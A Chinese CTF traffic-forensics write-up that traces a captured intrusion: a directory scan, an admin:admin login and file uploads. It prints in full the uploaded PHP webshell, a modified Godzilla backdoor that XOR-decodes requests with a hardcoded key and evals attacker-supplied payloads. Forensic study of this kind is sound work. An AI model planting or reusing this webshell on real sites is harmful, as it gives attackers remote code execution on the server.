 
## Au5t1n的秘密
中间有http流，貌似是扫描了一下目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/63e5ed588af44c69978d608b21ad396f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

在1994组里面，貌似是扫到了后台

![在这里插入图片描述](https://img-blog.csdnimg.cn/b0226c40ff6b45928e89c2996aa0dc72.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

这里用admin:admin貌似登陆进去了

![在这里插入图片描述](https://img-blog.csdnimg.cn/6b5831c11df6438e89034def93ae76d8.png)

进后台后进行了一个上传操作，这里提示了密钥是key is key1**

![在这里插入图片描述](https://img-blog.csdnimg.cn/61d5b8c67b4547d5bb3b6863c2e61e37.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_18,color_FFFFFF,t_70,g_se,x_16)

传了文件名为key.php.mod
第二次上传

![在这里插入图片描述](https://img-blog.csdnimg.cn/276fd952482c4a3e9ee71c602ea66c30.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_19,color_FFFFFF,t_70,g_se,x_16)

内容是一个木马，didi.php，是一个哥斯拉马子，但是好像还改过

```php
<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$payloadName='payload';
$key='093c1c388069b7e1';
$data=file_get_contents("php://input");
if ($data!==false){
    $data=encode($data,$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
		eval($payload);
        echo encode(@run($data),$key);
    }else{
        if (stripos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}
```
继续往后翻，找到对这个后面的利用了
